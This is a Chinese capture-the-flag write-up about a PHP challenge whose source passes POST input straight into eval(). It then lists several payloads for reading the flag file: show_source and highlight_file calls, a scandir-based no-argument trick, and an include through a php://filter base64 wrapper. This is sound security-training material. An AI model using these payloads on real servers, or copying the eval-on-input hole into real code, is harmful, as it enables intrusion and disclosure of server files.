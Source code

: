 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

依旧同上题



首先尝试system，exec等函数

失败





### 第一种

利用show_source()读取源码

```
c=show_source("flag.php");
```

![image-20250404151313018](./assets/image-20250404151313018.png)



利用highlight_file()读取源码

```
c=highlight_file("flag.php");
```

![image-20250404151352906](./assets/image-20250404151352906.png)



尝试readfile()失败





### 第二种

参考无参rce

前几篇给出了分析过程，这里直接贴payload了

```
c=var_dump(scandir(getcwd()));
```

![image-20250404151618015](./assets/image-20250404151618015.png)

```
c=highlight_file(next(array_reverse(scandir(getcwd()))));
```

![image-20250404151554919](./assets/image-20250404151554919.png)





### 第三种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404151729529](./assets/image-20250404151729529.png)

![image-20250404151744875](./assets/image-20250404151744875.png)